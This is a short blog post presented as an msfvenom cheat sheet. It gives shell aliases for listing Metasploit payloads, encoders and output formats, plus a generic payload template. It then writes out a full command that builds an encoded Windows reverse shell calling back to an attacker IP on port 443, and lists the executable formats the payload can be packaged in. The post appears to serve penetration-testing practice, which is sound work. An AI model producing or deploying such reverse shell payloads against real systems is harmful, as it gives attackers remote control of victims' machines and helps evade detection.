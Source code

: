 ```yaml
---
layout: post
title: "The msfvenom cheat sheet"
date: 2016-10-22
permalink: /blog/:year/:month/:day/:title.html
---
```

Here are simple msfvenom commands to help in quick payload generation.  

I love the msfvenom aliases that g0tmi1k setup in his [os-scripts](https://github.com/g0tmi1k/os-scripts). These will help in finding the correct payloads, encoders, and formats.  

Place these aliases in ~/.bash_aliases:  

> **`alias msfvenom-list-all='cat ~/.msf4/msfvenom/all'`**  
> **`alias msfvenom-list-nops='cat ~/.msf4/msfvenom/nops'`**  
> **`alias msfvenom-list-payloads='cat ~/.msf4/msfvenom/payloads'`**  
> **`alias msfvenom-list-encoders='cat ~/.msf4/msfvenom/encoders'`**  
> **`alias msfvenom-list-formats='cat ~/.msf4/msfvenom/formats'`**  

Finish the setup by running the following:

> **`mkdir -p ~/.msf4/msfvenom/`**  
> **`msfvenom --list > ~/.msf4/msfvenom/all`**  
> **`msfvenom --list nops > ~/.msf4/msfvenom/nops`**  
> **`msfvenom --list payloads > ~/.msf4/msfvenom/payloads`**  
> **`msfvenom --list encoders > ~/.msf4/msfvenom/encoders`**  
> **`msfvenom --help-formats 2> ~/.msf4/msfvenom/formats`**  

A basic msfvenom command.

> **`msfvenom -p <payload> LHOST=<Your IP> LPORT=<Your Port> -f <format> -e <encoder> -b <bad characters>`**  

A reverse shell example for windows that connects to attacker IP 10.10.10.10 on port 443. This is formatted in c and encode in x86/shikata_ga_nai with bad characters \x00 and \x04.

> **`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x04"`**  

Dont forget that we can build **exe**, **war**, **vbs**, and **asp** executables. Current formats supported by msfvenom are as follows:  

> **`Executable formats`**

>> **`asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war`**  

> **`Transform formats`**

>> **`bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript`**  
